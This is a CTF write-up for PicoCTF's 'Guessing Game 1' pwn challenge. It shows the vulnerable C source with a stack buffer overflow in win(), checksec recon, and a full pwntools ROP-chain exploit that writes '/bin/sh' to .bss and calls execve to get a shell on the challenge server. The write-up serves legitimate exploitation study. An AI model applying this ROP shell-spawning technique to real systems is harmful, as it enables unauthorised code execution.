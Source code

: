 # PicoCTF - Guessing Game 1
## Background
ROP Chain
[Linux System Call Table for x86 64](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/)
## Source code
:::spoiler
```cpp
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/stat.h>

#define BUFSIZE 100


long increment(long in) {
	return in + 1;
}

long get_random() {
	return rand() % BUFSIZE;
}

int do_stuff() {
	long ans = get_random();
	ans = increment(ans);
	int res = 0;
	
	printf("What number would you like to guess?\n");
	char guess[BUFSIZE];
	fgets(guess, BUFSIZE, stdin);
	
	long g = atol(guess);
	if (!g) {
		printf("That's not a valid number!\n");
	} else {
		if (g == ans) {
			printf("Congrats! You win! Your prize is this print statement!\n\n");
			res = 1;
		} else {
			printf("Nope!\n\n");
		}
	}
	return res;
}

void win() {
	char winner[BUFSIZE];
	printf("New winner!\nName? ");
	fgets(winner, 360, stdin);
	printf("Congrats %s\n\n", winner);
}

int main(int argc, char **argv){
	setvbuf(stdout, NULL, _IONBF, 0);
	// Set the gid to the effective gid
	// this prevents /bin/sh from dropping the privileges
	gid_t gid = getegid();
	setresgid(gid, gid, gid);
	
	int res;
	
	printf("Welcome to my guessing game!\n\n");
	
	while (1) {
		res = do_stuff();
		if (res) {
			win();
		}
	}
	
	return 0;
}
```
:::
## Recon
1. Recon
    ```bash!
    $ file vuln
    vuln: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, for GNU/Linux 3.2.0, BuildID[sha1]=94924855c14a01a7b5b38d9ed368fba31dfd4f60, not stripped
    $ checksec vuln
    [*] '/mnt/d/NTU/CTF/PicoCTF/PWN/Guessing Game 1/vuln'
        Arch:     amd64-64-little
        RELRO:    Partial RELRO
        Stack:    Canary found
        NX:       NX enabled
        PIE:      No PIE (0x400000)
    ```
    可以看到這隻程式沒有用動態連結的方式引入library，代表他都把一些libc會用到的東西編譯進去了
2. 這支程式沒有明顯讀flag的地方，所以可以直覺想到要開shell，而main function的do_stuff subfunction主要應該是類似proof of work的部分(因為亂數的範圍也只要0-99)，當猜對random的數值後就近到win function然後可以填一些東西，達到bof的效果
3. 所以也很直覺的想到one_gadget或是ROP chain的東西，這部分就比較傷腦筋，因為蓋的過程會有一點點繞，講白了這題和[^0x12_rop++]幾乎一模一樣，但因為太久沒看所以忘記了
4. 既然有bof，那我們就可以隨便的蓋rop chain，包括syscall read function，這也說明了如何寫`/bin/sh\x00`的問題
5. ==執行的順序:==
Guess random(PoW)$\to$
syscall __libc_read function$\to$
Input `/bin/sh\x00`$\to$
Return to main function$\to$
Guess random(PoW)$\to$
Syscall `execve` to get shell

Note: 要如何知道`.bss`段在哪裡可以用`readelf -S ./vuln`查看

## Exploit
```python
from pwn import *
import random

# r = process("./vuln")
r = remote("jupiter.challenges.picoctf.org", 39940)

context.arch = "amd64"

'''#############
Read /bin/sh by libc read function
#############'''
r.recvuntil(b'What number would you like to guess?\n')

while(1):
    r.sendline(str(randint(1, 99)).encode())
    tmp = r.recvline().strip().decode()
    print(tmp)
    if tmp != "Nope!":
        success("You got it!!!")
        break
    r.recvuntil(b'What number would you like to guess?\n')

print(r.recvuntil(b'Name? '))

pop_rax_ret = 0x4163f4
pop_rdi_ret = 0x400696
pop_rdx_ret = 0x44a6b5
pop_rsi_ret = 0x410ca3
main_fun_addr = 0x400c8c
libc_read_addr = 0x44a6a0
write_2_bss = 0x6b7000
syscall = 0x40137c

ROP_payload = flat(
    pop_rdi_ret, 0,
    pop_rsi_ret, write_2_bss,
    pop_rdx_ret, 9,
    libc_read_addr,
    main_fun_addr
)
# raw_input()
r.sendline(b'a' * 0x78 + ROP_payload)
r.sendline(b'/bin/sh\x00')

'''#############
Execute shell
#############'''
r.recvuntil(b'What number would you like to guess?\n')

while(1):
    r.sendline(str(randint(1, 99)).encode())
    tmp = r.recvline().strip().decode()
    print(tmp)
    if tmp != "Nope!":
        success("You got it!!!")
        break
    r.recvuntil(b'What number would you like to guess?\n')

print(r.recvuntil(b'Name? '))

ROP_payload = flat(
    pop_rax_ret, 0x3b,
    pop_rdi_ret, write_2_bss,
    pop_rsi_ret, 0,
    pop_rdx_ret, 0,
    syscall
)
# raw_input()
r.sendline(b'a' * 0x78 + ROP_payload)
r.interactive()
```
## Reference
[PicoCTF - Guessing Game 1 [Pwn]](https://cyb3rwhitesnake.medium.com/picoctf-guessing-game-1-pwn-bdc1c87016f9)
[^0x12_rop++]:[Simple PWN - 0x12(Lab - rop++)](https://hackmd.io/@SBK6401/rysBjQfjs)
